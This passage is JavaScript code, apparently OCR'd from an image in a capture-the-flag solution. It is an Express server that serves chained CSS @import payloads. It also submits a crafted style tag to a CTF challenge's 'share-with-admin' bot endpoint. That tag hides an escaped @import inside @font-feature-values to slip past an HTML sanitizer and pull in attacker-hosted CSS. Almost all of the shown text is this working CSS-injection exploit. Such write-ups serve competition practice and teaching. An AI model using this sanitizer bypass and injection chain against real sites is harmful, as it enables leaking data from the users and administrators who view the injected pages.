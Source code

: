 ``` js
  res.send(payload3)
})

app.get('/payload', (req, res) => {
  console.log('payload')
  let payload = `@import url("${BASE}/payload1");\n@import url("${BASE}/payload2");\n@import url("${BASE}/payload3");`
  res.setHeader('Content-Type', 'text/css')
  res.send(payload)
})

app.listen(port, async () => {
  console.log(`Example app listening on port ${port}`)
  
  setTimeout(() => {
    sendToBot(`<style>@font-feature-values 'lol; @\\\\0069mport "${BASE}/payload";p' {}</style><p class="p1"></p><p class="p2"></p><p class="p3"></p>`)
  }, 1000)
})

function sendToBot(payload) {
  fetch('https://in-the-shadows-web.2024.ctfcompetition.com/share-with-admin?body=' + encodeURIComponent(payload)).then(r => r.text()).then(console.log)
}
```

